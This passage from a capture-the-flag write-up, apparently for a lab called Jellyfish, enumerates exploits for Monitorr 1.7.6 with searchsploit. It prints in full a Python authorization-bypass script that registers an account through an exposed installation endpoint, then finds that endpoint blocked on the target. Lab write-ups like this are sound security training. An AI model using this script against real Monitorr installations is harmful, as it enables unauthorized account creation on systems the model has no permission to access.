 Let's check searchsploit:

```text
┌──(root💀kali)-[~/thm/jellyfish]
└─# searchsploit monitorr 1.7.6
---------------------------------------------------------- ---------------------------------
 Exploit Title                                            |  Path
---------------------------------------------------------- ---------------------------------
Monitorr 1.7.6m - Authorization Bypass                    | php/webapps/48981.py
Monitorr 1.7.6m - Remote Code Execution (Unauthenticated) | php/webapps/48980.py
---------------------------------------------------------- ---------------------------------
```

Looks like we've found the intended way in. [This](https://lyhinslab.org/index.php/2020/09/12/how-the-white-box-hacking-works-authorization-bypass-and-remote-code-execution-in-monitorr-1-7-6/) article explains how the two exploits work.

Let's have a look at the first one:

```text
import requests
import os
import sys

if len (sys.argv) != 5:
        print ("specify params in format: python " + sys.argv[0] + " target_url user_login user_email user_password")
else:
    url = sys.argv[1] + "/assets/config/_installation/_register.php?action=register"
    headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:82.0) Gecko/20100101 Firefox/82.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", >
    data = {"user_name": sys.argv[2], "user_email": sys.argv[3], "user_password_new": sys.argv[4], "user_password_repeat": sys.argv[4], "register": "Register"}
    requests.post(url, headers=headers, data=data)
    print ("Done.")
```

It's a short script, the key part is this bit where we are accessing a post installation file to register a new account:

```text
url = sys.argv[1] + "/assets/config/_installation/_register.php?action=register"
```

Unfortunately, if we browse to that we see is isn't accessible:

![jellyfish-monitorr-bypass](/assets/images/2021-04-26-16-45-39.png)
